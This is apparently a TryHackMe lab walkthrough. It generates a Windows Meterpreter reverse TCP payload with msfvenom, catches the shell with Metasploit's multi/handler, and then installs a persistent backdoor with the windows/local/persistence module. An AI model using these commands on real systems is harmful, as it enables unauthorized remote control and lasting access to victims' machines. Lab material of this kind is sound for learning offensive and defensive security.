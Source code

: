 Generating a Payload w/ msfvenom﻿

1.) `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell

![](https://i.imgur.com/QMUjy24.png)

2.) Transfer the payload from your attacker machine to the target machine.

3.) `use exploit/multi/handler` - this will create a listener on the port that you set it on.

4.) Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`

5.) After setting your THM IP address as your "LHOST", start the listener with `run`

6.)  Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that

7.) Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

Run the Persistence Module -

1.) `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want

2.) `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)

![](https://i.imgur.com/KxaNZo5.png)

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

![](https://i.imgur.com/Q6pToA1.png)

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.